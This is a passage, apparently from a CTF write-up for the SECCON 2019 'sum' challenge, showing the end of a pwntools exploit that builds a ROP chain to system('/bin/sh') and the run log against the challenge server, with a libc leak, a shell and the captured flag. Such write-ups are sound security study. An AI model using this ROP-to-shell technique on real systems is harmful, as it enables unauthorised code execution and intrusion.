```python
log.info('/bin/sh: ' + hex(bin_sh))

# ROP to system('/bin/sh')
p.recv()
p.sendline('{} {} {} 1 1 {}'.format(pop_rdi, bin_sh, system, garbage))

p.interactive()
```

```sh
vagrant@ubuntu-bionic:/ctf/seccon-2019/sum$ ./exploit.py REMOTE
[*] '/ctf/seccon-2019/sum/sum'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/ctf/seccon-2019/sum/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
REMOTE PROCESS
[+] Opening connection to sum.chal.seccon.jp on port 10001: Done
[*] Leak: 0x7f0b9fdab9c0
[*] Libc base: 0x7f0b9fd2b000
[*] system: 0x7f0b9fd7a440
[*] /bin/sh: 0x7f0b9fedee9a
[*] Switching to interactive mode
/bin/sh: 1: 0: not found
$ ls
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sum
sys
tmp
usr
var
$ cat flag.txt
SECCON{ret_call_call_ret??_ret_ret_ret........shell!}
$  
```